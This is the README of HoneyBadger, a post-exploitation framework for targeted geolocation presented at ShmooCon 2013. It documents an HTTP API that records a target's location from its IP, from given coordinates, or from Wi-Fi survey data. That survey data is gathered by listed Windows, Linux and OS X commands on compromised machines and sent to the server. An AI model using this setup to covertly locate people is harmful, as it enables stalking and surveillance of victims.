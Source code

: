 A framework for targeted geolocation.

As seen in the presentation "Hide and Seek: Post-Exploitation Style" from ShmooCon 2013.

Associated Metasploit Framework modules can be found [here](https://github.com/v10l3nt/metasploit-framework/tree/master/modules/auxiliary/badger).

Basic HoneyBadger API
---------------------

### IP Geolocation

This method geolocates the target based on the source IP of the request and assigns the resolved location to the given target and agent.

Example:

```http://<path_to_honeybadger>/service.php?target=<target_name>&agent=<agent_name>```

### Known Coordinates

This method accepts previously resolved location data for the given target and agent.

Example:

```http://<path_to_honeybadger>/service.php?target=<target_name>&agent=<agent_name>&lat=<latitude>&lng=<longitude>&acc=<accuracy>```

### Wireless Survey

This method accepts wireless survey data and parses the information on the server-side, extracting what is needed to make a Google API geolocation call. The resolved geolocation data is then assigned to the given target and agent. Parsers currently exist for survey data from Windows, Linux and OS X using the following commands:

Windows:

```cmd.exe /c netsh wlan show networks mode=bssid | findstr "SSID Signal"```

Linux:

```/bin/sh -c iwlist scan | egrep 'Address|ESSID|Signal'```

OS X:

```/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s```

Example:

```http://<path_to_honeybadger>/service.php?target=<target_name>&agent=<agent_name>&os=<operating_system>&data=<base64_data>```

### Universal Parameters

All requests can include an optional "comment" parameter. This parameter is sanitized and displayed within the UI as miscellaneous information about the target or agent.
